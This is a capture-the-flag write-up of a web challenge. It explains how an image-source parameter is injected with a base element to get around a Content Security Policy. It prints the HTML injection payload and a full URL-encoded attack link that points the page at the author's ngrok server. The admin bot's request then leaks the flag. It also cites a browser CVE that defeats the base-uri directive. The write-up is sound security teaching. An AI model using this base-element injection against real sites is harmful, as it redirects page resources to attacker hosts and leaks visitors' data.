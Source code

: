 🚩 5th Challenge

### Question

![1.png](./assets/1.png)
> Link: http://54.205.207.242/

### Solution
- This is how the website looks like
- ![2.png](./assets/2.png)
- The link gives us good vibes
- ![3.png](./assets/3.png "3.png")
- It's just another XSS chall :)
- Looking around in the HTML source code we see that it's choosing the image from links/paths except that when you provide the internal link `/img/rasengan.jpg` it will not work and say `No hacker` as seen below, so it seems to only work for external links
- ![4.png](./assets/4.png)
- Coming to CSP part which is always to be considered when you're working with XSS exploits
- In the code we find line CSP line 
- ![5.png](./assets/5.png)
- `script-src 'nonce-xDZxYq7Qzayc4Z';connect-src 'self';style-src 'self';font-src 'self';object-src 'none';base-uri 'none'`
- Taking that to our friend [CSP-evaluator](https://csp-evaluator.withgoogle.com/) it shows it's all good
- ![6.png](./assets/6.png)
- Hmmm! searching time again
- I've actually solved very similar chall made by the same author before in another CTF and it was using the base element XSS but then it wasn't included in the CSP protection ([Writeup](https://github.com/AyhamAl-Ali/CTF-Dump/tree/main/CTFs/NCSCJo-CyberWarriors/Web/Xo%20So%20So)) So I had an idea about base element so I tried my old payload again (from the writeup link above) except this time the flag is in User-Agent as mentioned in the description while the old chall had another solution requires some more steps 
- Payload:
```css
'><base href='https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io'>
```
![7.png](./assets/7.png)
- With `'>`we closed the current img `src` attribute
- With `<base href='https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io'>`we opened a new element, base element which is the way we thought it would work from a previous writeup with the link of our ngrok server
- Final url: `http://54.205.207.242/index.php?src=%27%3E%3Cbase%20href=%27https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io/%27%3E` (url encoding is important)
- When I pasted the link in the bot to report it actually worked! and my server received a request
- ![8.png](./assets/8.png)
- ![9.png](./assets/9.png)
- VOILAAAA!!!
> Flag: `FLAG{You_StoLe_AmaDO_ForbiDDen_CybOrg_Jutsu}`

After all it seemed to be a known CVE of base-uri ([CVE-2022-40956](https://www.mozilla.org/en-US/security/advisories/mfsa2022-40/#CVE-2022-40956)). Even if base-uri directive is not missing, it can be exploited :) 